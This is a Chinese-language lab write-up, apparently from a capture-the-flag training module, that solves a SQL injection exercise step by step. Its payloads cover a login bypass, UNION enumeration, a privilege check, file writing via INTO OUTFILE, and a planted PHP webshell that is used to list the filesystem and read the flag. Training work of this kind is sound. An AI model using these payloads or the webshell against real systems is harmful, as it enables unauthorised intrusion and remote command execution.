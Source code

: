 # SQL实验报告

## SQL Injection Fundamentals

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条，绕过权限进入页面。
```

```sql
' or 1=1 limit 1 -- #
```

![1](img/2.png)

```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不进行过滤处理，综合步骤1考虑判断本网站存在SQL注入漏洞。
```

```sql
' union select 1,2,3,4 -- #
```

![2](img/3.png)

```blank
3.通过尝试，发现union拼接列数为5，其中2-5条返回至前端。
```

```sql
' union select 1,2,3,4,5 -- #
```

![3](img/4.png)

```blank
4.查询用户是否有权限，第二列结果为Y，表示用户有权限。
```

```sql
CN' union select 1, SUPER_PRIV, 3, 4, 5 from MYSQL.USER where user="ROOT"-- #
```

![4](img/5.png)

```blank
5.尝试写入文件，通过URL访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

```url
http://64.227.32.37:30644/dashboard/proof.txt
```

![5](img/6.png)

```blank
6.写入shell.php文件，拿到Webshell。尝试执行ls命令查看目录下的文件。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

```bash
ls
```

![6](img/7.png)

```blank
7.使用Webshell执行下列URL，获取系统/目录下的所有文件，发现有flag的文件，文件名为flag_cae1dadcd174.txt。
```

```bash
ls /
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```

![7](img/8.png)

```blank
8.执行cat读取命令，获取flag。
flag:528d6d9cedc2c7aab146ef226e918396
```

```bash
cat /flag_cae1dadcd174.txt
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

### 结果截图

![10](img/10.png)

---
